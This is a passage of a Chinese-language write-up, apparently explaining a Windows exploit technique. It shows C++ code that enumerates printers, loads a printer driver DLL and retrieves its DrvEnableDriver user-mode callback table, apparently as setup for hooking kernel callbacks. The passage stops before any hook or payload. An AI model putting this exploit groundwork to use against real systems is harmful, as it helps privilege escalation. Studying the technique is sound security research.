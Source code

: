 *   使用`OpenPrinter`、 `GetPrinterDriver`、 `LoadLibraryExA`将此打印机驱动加载到内存

```
HANDLE hPrinter = 0;
DRIVER_INFO_2A* pDriverInfo = NULL;
// get the printer driver's name
PRINTER_INFO_4A* pPrinterInfoTemp = &pPrinterInfo[i];
if (!pPrinterInfoTemp->pPrinterName)
{
    cout << "[-] Failed To Print The Printer Name" << endl;
}
cout << "[+] The Printer Name: " << pPrinterInfoTemp->pPrinterName << endl;
expVal::pPrinterName = pPrinterInfoTemp->pPrinterName;
 
retStatus = OpenPrinterA(pPrinterInfoTemp->pPrinterName, &hPrinter, NULL);
if (!retStatus)
{
    cout << "[-] Failed To Open The Printer: " << pPrinterInfoTemp->pPrinterName << endl;
    continue;
}
 
// get the printer driver's handle
pcbNeeded = 0;
GetPrinterDriverA(hPrinter, NULL, 2, NULL, 0, &pcbNeeded);
pDriverInfo = static_cast(malloc(pcbNeeded));
if (!pDriverInfo)
{
    cout << "[-] Failed To Allocate Buffer for DRIVER_INFO_2A" << endl;
    return FALSE;
}
retStatus = GetPrinterDriverA(hPrinter, NULL, 2, (LPBYTE)pDriverInfo, pcbNeeded, &pcbNeeded);
if (!retStatus)
{
    cout << "[-] Failed To Get Printer Driver" << endl;
    continue;
}
cout << "[+] The Driver Dll: " << pDriverInfo->pDriverPath << endl;
 
// load the printer driver to memory
HMODULE hModule = LoadLibraryExA(pDriverInfo->pDriverPath, NULL, LOAD_WITH_ALTERED_SEARCH_PATH);
if (!hModule)
{
    cout << "[-] Failed To Load The " << pDriverInfo->pDriverPath << "To Memory" << endl;
    continue;
} 
```

*   使用`GetProcAddress`和`DrvEnableDriver`获取此打印机驱动的用户态回调函数表 (callback table)

```
// get the function pointer
pDrvEnableDriver DrvEnableDriver = NULL;
pDrvDisableDriver DrvDisableDriver = NULL;
DrvEnableDriver = (pDrvEnableDriver)GetProcAddress(hModule, "DrvEnableDriver");
DrvDisableDriver = (pDrvDisableDriver)GetProcAddress(hModule, "DrvDisableDriver");
if (!DrvDisableDriver || !DrvEnableDriver)
{
    cout << "[-] Failed To Get The DrvEnableDriver And DrvDisableDriver's Address" << endl;
    continue;
}
 
// enable the printer driver
DRVENABLEDATA drvEnableData{ 0 };
retStatus = DrvEnableDriver(DDI_DRIVER_VERSION_NT4, sizeof(DRVENABLEDATA), &drvEnableData);
if (!retStatus)
```